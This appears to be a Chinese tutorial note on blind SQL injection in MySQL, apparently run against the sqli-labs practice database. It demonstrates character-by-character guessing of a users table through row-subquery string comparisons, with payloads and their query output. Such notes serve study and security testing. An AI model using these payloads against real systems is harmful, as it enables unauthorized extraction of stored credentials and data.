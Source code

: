 利用 mysql 比较字符时会转换成 ascii 的特性来进行盲注

原理如下

```sql
mysql> select 'a'>'c';
+---------+
| 'a'>'c' |
+---------+
|       0 |
+---------+
1 row in set (0.00 sec)

mysql> select 'd'>'c';
+---------+
| 'd'>'c' |
+---------+
|       1 |
+---------+
1 row in set (0.00 sec)
```

如果是字符串会按照单个字符依次比较, 我就不写了

payload 如下

```sql
mysql> select * from emails where id=1 and (select 1,binary 'Da',3)>(select * from users limit 0,1);
Empty set (0.00 sec)

mysql> select * from emails where id=1 and (select 1,binary 'D',3)>(select * from users limit 0,1);
Empty set (0.00 sec)

mysql> select * from emails where id=1 and (select 1,binary 'Du',3)>(select * from users limit 0,1);
Empty set (0.00 sec)

mysql> select * from emails where id=1 and (select 1,binary 'Da',3)>(select * from users limit 0,1);
Empty set (0.00 sec)

mysql> select * from emails where id=1 and (select 1,binary 'Dz',3)>(select * from users limit 0,1);
+----+------------------+
| id | email_id         |
+----+------------------+
|  1 | Dumb@dhakkan.com |
+----+------------------+
1 row in set (0.00 sec)
```

不过这种方法也有个缺点, 例如 users 表的列名是 `id username password`, 如果你想要猜 password 的内容, 就必须要先把 id 和 username 猜出来

```sql
(select 1,2,3)>(select * from users limit 0,1); # 第一个位置先猜 id
......

(select 1,'Dumb',3)>(select * from users limit 0,1); # 第二个位置再猜 username
......

(select 1,'Dumb','Dumb')>(select * from users limit 0,1); # 第三个位置才能猜 password
```